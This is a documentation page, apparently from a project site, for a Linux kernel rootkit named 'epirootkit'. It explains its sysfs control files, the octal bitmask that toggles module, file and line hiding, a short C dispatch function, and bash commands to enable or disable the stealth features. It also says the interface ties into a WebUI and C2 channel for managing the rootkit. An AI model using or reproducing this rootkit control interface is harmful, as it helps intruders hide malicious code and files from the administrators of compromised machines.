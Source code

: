 ```yaml
---
title: "Sysfs Interface"
description: "Linux-native configuration using octal permission system"
icon: "settings"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 520
---
```


# Sysfs Interface

Linux sysfs interface with octal permission-style configuration for rootkit control.

## Implementation

Directory: `/sys/kernel/epirootkit/`

Uses an octal bitmask system where each bit controls specific stealth features:
- Bit 0 (1): Module hiding
- Bit 1 (2): File hiding  
- Bit 2 (4): Line hiding

```c
static void update_hide_state(int mode)
{
    if (mode & 1) enable_module_hiding();
    if (mode & 2) enable_file_hiding();
    if (mode & 4) enable_line_hiding();
}
```

## Sysfs Files

**`/sys/kernel/epirootkit/hide`** - Controls stealth features
**`/sys/kernel/epirootkit/unhide`** - Quick disable all hiding

## Usage

```bash
# Enable all stealth features (7 = 4+2+1)
echo 7 > /sys/kernel/epirootkit/hide

# Enable only module and file hiding (3 = 2+1)
echo 3 > /sys/kernel/epirootkit/hide

# Disable all hiding
echo 1 > /sys/kernel/epirootkit/unhide

# Check status
cat /proc/epirootkit_status
```

## Control Integration

Works alongside WebUI and C2 commands for unified rootkit management. 